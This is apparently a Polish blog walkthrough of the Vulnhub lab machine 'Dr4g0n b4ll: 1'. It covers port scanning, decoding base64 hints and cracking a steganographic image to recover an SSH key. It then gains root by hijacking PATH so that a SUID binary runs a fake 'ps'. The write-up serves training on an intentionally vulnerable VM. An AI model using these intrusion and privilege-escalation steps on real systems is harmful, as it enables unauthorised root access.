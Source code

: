 ```yaml
---
title: "Dr4g0n b4ll: 1"
excerpt: " "
comments: true
categories:
  - Hacking
tags:
  - Hacking
  - Vulnhub
header:
  overlay_image: /assets/images/pasek-hack.png
gallery1_2:
  - url: /assets/images/hacking/2021/07/01.jpg
    image_path: /assets/images/hacking/2021/07/01.jpg
  - url: /assets/images/hacking/2021/07/02.jpg
    image_path: /assets/images/hacking/2021/07/02.jpg
gallery3:
  - url: /assets/images/hacking/2021/07/03.png
    image_path: /assets/images/hacking/2021/07/03.png
gallery4:    
  - url: /assets/images/hacking/2021/07/04.png
    image_path: /assets/images/hacking/2021/07/04.png
gallery5:
  - url: /assets/images/hacking/2021/07/05.png
    image_path: /assets/images/hacking/2021/07/05.png
gallery6:
  - url: /assets/images/hacking/2021/07/06.png
    image_path: /assets/images/hacking/2021/07/06.png
---
```

# Wstęp
Wydany na początku stycznia 2021 [Dr4g0n b4ll: 1](https://www.vulnhub.com/entry/dr4g0n-b4ll-1,646/), jak to autorzy wspominają jest bardzo prostą maszyną, jednak w maju utknąłem na niej w połowie, ponieważ wcześniej nie miałem do czynienia ze stenografią. Jedna po zaliczeniu paru podatnych obrazów, trochę wiedzy przybyło i spróbowałem jeszcze raz. Jak zwykle, żeby wszystko działało pod XCP-NG trzeba zmodyfikować [Grub-a](https://kerszl.github.io/hacking/xcp-ng-i-vulnhub/). Co do poziomu, to prostota prostocie nierówna, ostatnio też bawiłem się maszyną [Hack Me Please: 1](https://www.vulnhub.com/entry/hack-me-please-1,731/), ale ona już dla mnie taka prosta nie była, jak pisał autor. Przypominała bardziej prawdziwą sytuację, niż taką upstrzoną zagadkami. W hack-me-please niestety posiłkowałem się [solucją](https://nepcodex.com/2021/08/hack-me-please-walkthrough-vulnhub/) na necie. Inny typ zadania, ale zawsze jest jakieś nowe doświadczenie. Wracając do Dragon Ball-a, to jest ciekawy trik na końcu, który nieraz się wam może przydać, ale to na końcu 😃
{: .text-justify}
## Zaczynamy
Jak zwykle skanujemy porty Nmap-em. Możemy pod Metasploitem, albo bez. Ja wolę użyć Metasploita, bo mam potem wszystkie ip, hasła, otwarte porty w jednym miejscu. Co do shella, to niekoniecznie, czasami wolę się wbić normalnie przez ssh, niż potem ulepszać Meterpreter, ale co kto woli.
{: .text-justify}
```bash
msf6 exploit(multi/handler) > db_nmap -A -p- 172.16.1.113
...
msf6 exploit(multi/handler) > services
Services
========

host          port  proto  name  state  info
----          ----  -----  ----  -----  ----
172.16.1.113  22    tcp    ssh   open   OpenSSH 7.9p1 Debian 10+deb10u2 protocol 2.0
172.16.1.113  80    tcp    http  open   Apache httpd 2.4.38 (Debian)
```
Otwarte są tylko 2 porty: 22 i 80. Na Stronie www mamy zdjęcia z anime Dragon Ball.
{% include gallery id="gallery1_2"  %}
To tylko ozdoba. Prawdziwa przygoda zaczyna się w kodzie strony. Na samym dole jest zakodowany napis:
{: .text-justify}
{% include gallery id="gallery3"  %}
Po trzykrotnym rozkodowaniu mamy napis **DRAGON BALL**:
```bash
echo -n VWtaS1FsSXdPVTlKUlVwQ1ZFVjNQUT09 | base64 -d
echo -n UkZKQlIwOU9JRUpCVEV3PQ== | base64 -d
echo -n RFJBR09OIEJBTEw= | base64 -d
DRAGON BALL
```
Jednak do kodowania napisów w **BASE64** radzę pisać **echo -n**. Komenda **echo NAPIS | base64** zakoduje string i dodatkowo znak nowej linii **0x0a**.
{: .text-justify}
{: .notice--info}
Skanowanie Gobusterem:
```bash
gobuster dir -u http://172.16.1.124 -w /usr/share/wordlists/dirb/common.txt
```
I mamy ciekawą rzecz w robots.txt:

http://172.16.1.124/robots.txt
{: .notice--info}
Ponownie rozkodowujemy:
```bash
echo -n eW91IGZpbmQgdGhlIGhpZGRlbiBkaXI=  | base64 -d
echo -n ZVc5MUlHWnBibVFnZEdobElHaHBaR1JsYmlCa2FYST0K  | base64 -d
echo -n eW91IGZpbmQgdGhlIGhpZGRlbiBkaXI=  | base64 -d
you find the hidden dir 
```
Dostajemy komunikat, żeby szukać ukryty katalog. Jest tutaj:
{: .text-justify}

http://172.16.1.113/DRAGON%20BALL/Vulnhub/
{: .text-justify}
{: .notice--info}
Poniżej zawartość:
{: .text-justify}
{% include gallery id="gallery4"  %}

Możemy wejść na stronę, ale nic na niej nie zdziałamy, taka podpucha:
{: .text-justify}

http://172.16.1.113/DRAGON%20BALL/Vulnhub/login.html
{: .notice--info}
{% include gallery id="gallery6"  %}
Strona nie działa poprawnie, ale mamy login i jest ciekawy obrazek **aj.jpg**:
{: .text-justify}
{% include gallery id="gallery5"  %}
Rozkodujmy go:
{: .text-justify}
```bash
root@kali:/home/szikers/dr4g0n_b4ll# stegcracker aj.jpg
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2021 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which
will blast through the rockyou.txt wordlist within 1.9 second as opposed
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

No wordlist was specified, using default rockyou.txt wordlist.
Counting lines in wordlist..
Attacking file 'aj.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: love
Tried 451 passwords
Your file has been written to: aj.jpg.out
love
```
Podglądamy co to za plik:
{: .text-justify}
```console
root@kali:/home/szikers/dr4g0n_b4ll# file aj.jpg.out
aj.jpg.out: OpenSSH private key
```
Mamy klucz, więc możemy się dostać do shella, spróbujmy z loginem **xmen**:
{: .text-justify}
```bash
ssh -i id_rsa xmen@172.16.1.113
```
Działa.Mamy katalog **script**, ale poszukajmy plików, które mają ustawiony bit **suid**. Może się znajdzie coś interesującego:
{: .text-justify}
```console
xmen@debian:~/script$ find / -perm -4000 2> /dev/null
/home/xmen/script/shell
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/su
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
```
Godna uwagi jest zawartość w: **/home/xmen/script/shell**
```console
xmen@debian:~$ ls script/ -lah
total 32K
drwxr-xr-x 2 root root 4.0K Jan  4  2021 .
drwxr-xr-x 5 xmen xmen 4.0K Aug  9 07:17 ..
-rw-r--r-- 1 root root   75 Jan  4  2021 demo.c
-rwsr-xr-x 1 root root  17K Jan  4  2021 shell
```
W **demo.c** widać krótki kod źródłowy. Program przechodzi na uprawnienia root-a i uruchamia program **ps**:
{: .text-justify}
```c
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("ps");
}
```
Czyli działa to tak:
{: .text-justify}
```console
xmen@debian:~/script$ ./shell
   PID TTY          TIME CMD
  5013 pts/0    00:00:00 shell
  5014 pts/0    00:00:00 sh
  5015 pts/0    00:00:00 ps
xmen@debian:~/script$
```
W kodzie programu nie mamy podanej całej ścieżki do **ps**, więc możemy to wykorzystać. Stwórzmy program **ps** w katalogu domowym:
{: .text-justify}
```bash 
file=/home/xmen/ps; touch $file && echo '/bin/bash' > $file && chmod +x $file
```
A następnie wyedytujmy zmienną **PATH**, żeby na początku szukała **ps** w naszym katalogu domowym:
{: .text-justify}
```bash
PATH="/home/xmen:$(echo $PATH)"
```
```console
xmen@debian:~/script$ echo $PATH
/home/xmen:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
xmen@debian:~/script$ ./shell
root@debian:~/script# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(xmen)
root@debian:~/script#
```
I to właśnie jest przestroga, żeby bardzo uważnie pisać pliki, jeżeli chcemy dać uprawnieniami **suid**. **Ps** przecież jest niegroźny, ale można zakombinować i zrobić, żeby był niebezpieczny.
{: .text-justify}
{: .notice--danger}


